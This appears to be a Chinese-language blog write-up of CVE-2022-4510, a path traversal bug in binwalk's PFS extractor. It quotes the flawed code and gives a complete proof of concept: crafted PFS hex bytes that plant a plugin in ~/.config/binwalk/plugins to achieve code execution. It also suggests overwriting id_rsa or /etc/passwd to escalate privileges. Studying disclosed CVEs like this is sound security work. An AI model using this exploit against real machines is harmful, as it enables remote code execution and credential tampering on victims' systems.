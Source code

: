 ﻿# 简介
根据cve官方描述，从版本2.1.2到 2.3.3的binwalk中发现了一个路径遍历漏洞。此漏洞允许远程攻击者在安装受影响的binwalk机子上执行任意代码

# 什么是PFS文件
PFS文件是由PhotoFiltre Studio（图像修饰程序）创建的选择文件。 它包含图像编辑器的多边形选择工具使用的坐标，以便在给定坐标之间绘制线。 PFS文件以纯文本格式存储。

PFS文件格式
```
https://lekensteyn.nl/files/pfs/pfs.txt
```
# 分析源代码
一个PFS提取器插件在2017年合并到了binwalk中，做了一下修改
```
     def extractor(self, fname):
         fname = os.path.abspath(fname)
         out_dir = binwalk.core.common.unique_file_name(os.path.join(os.path.dirname(fname), "pfs-root"))

         try:
             with PFS(fname) as fs:  #读取pfs文件数据
               data = open(fname, 'rb')
               data = binwalk.core.common.BlockFile(fname, 'rb')
               data.seek(fs.get_end_of_meta_data())
               for entry in fs.entries():
                   outfile_path = os.path.join(out_dir, entry.fname)
                   if not outfile_path.startswith(out_dir): 
                        binwalk.core.common.warning("Unpfs extractor detected directory traversal attempt for file: '%s'. Refusing to extract." % outfile_path)
                    else:
                        self._create_dir_from_fname(outfile_path)
                        outfile = binwalk.core.common.BlockFile(outfile_path, 'wb')
                        outfile.write(data.read(entry.fsize))
                        outfile.close()
                 data.close()
         except KeyboardInterrupt as e:
             raise e
```
问题出现在os.path.join函数上，因为第11行的代码没有完全进行路径解析，所以第12行的条件就永远不会为真

![image.png](https://img-blog.csdnimg.cn/ad49dba936a847189abd044da3a7b2f9.png)

通过制作一个路径遍历的PFS文件，我们可以强制binwalk在目录之外写入文件



# POC
用户可以使用binwalk的 API 定义自己的插件，只需要把插件放在$HOME/.config/binwalk/plugins/目录下，之后运行binwalk时就会调用插件

恶意代码：
```
import binwalk.core.plugin

class MaliciousExtractor(binwalk.core.plugin.Plugin):
    def init(self):
        print("baimao")
```
保存后用winhex打开文件
![image.png](https://img-blog.csdnimg.cn/45627e03e1dc45d58da9ad2902bf69ef.png)

直接粘贴以下十六进制数据

```
5046 532f 302e 3900 0000 0000 0000 0100
2e2e 2f2e 2e2f 2e2e 2f2e 636f 6e66 6967
2f62 696e 7761 6c6b 2f70 6c75 6769 6e73
2f6d 616c 7761 6c6b 2e70 7900 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
3412 0000 a000 0000 c100 0000
```


![image.png](https://img-blog.csdnimg.cn/c3790ccbe4a44a1e9e1f2eaa66a40d2b.png)


将.py保存为.pfs文件，然后添加到压缩包里


![image.png](https://img-blog.csdnimg.cn/5a11136800e44ee087845eac778e202d.png)


当从用户的主目录中用binwalk提取文件时，会在.config/binwalk/plugins加入一个插件，这个恶意插件随后会被 binwalk 加载和执行，从而导致 RCE

```
cd ~
binwalk -M -e exp.zip
```
![image.png](https://img-blog.csdnimg.cn/3c08525f31bd40a794946df5bdaacb5d.png)

成功执行代码

# 总结
今年1月31号才披露细节的cve，学习了一下，除了覆盖./.config/binwalk/plugins/malwalk.py文件，我们还可以覆盖id.rsa或者/etc/passwd文件来直接提权

参考文档：
```
https://nvd.nist.gov/vuln/detail/CVE-2022-4510
https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk
```

